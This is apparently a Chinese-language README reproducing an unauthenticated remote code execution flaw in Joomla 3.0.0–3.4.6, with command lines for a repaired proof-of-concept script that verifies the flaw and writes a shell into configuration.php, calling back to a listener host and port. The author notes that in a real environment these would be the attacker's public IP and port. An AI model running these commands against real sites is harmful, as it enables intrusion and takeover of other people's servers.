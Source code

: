 joomla 3.4.6未授权rce复现
-----

环境下载：https://downloads.joomla.org/it/cms/joomla3/3-4-6

## 漏洞复现

0、漏洞位置

http://x.x.x.x/configuration.php

影响范围：3.0.0-3.4.6

1、漏洞验证

`python3   joomla346_rce.py   -t    http://localhost:8123/joomla346/`

![](assets/poc.png)

2、漏洞利用

`python3 joomla346_rce.py -t http://localhost:8123/joomla346/ --exploit -l 127.0.0.1 -p 7878`

在真实环境下-l -p应该分别为你主机外网ip与端口

![](assets/exp.png)

执行成功后，可以看到我本地搭建的joomla3.4.6的configuration.php文件中已被写入shell

![](assets/shell.png)

最开始在github上面放出来的那个poc，有个地方写错了，我对它进行了改正，并上传到了本目录下

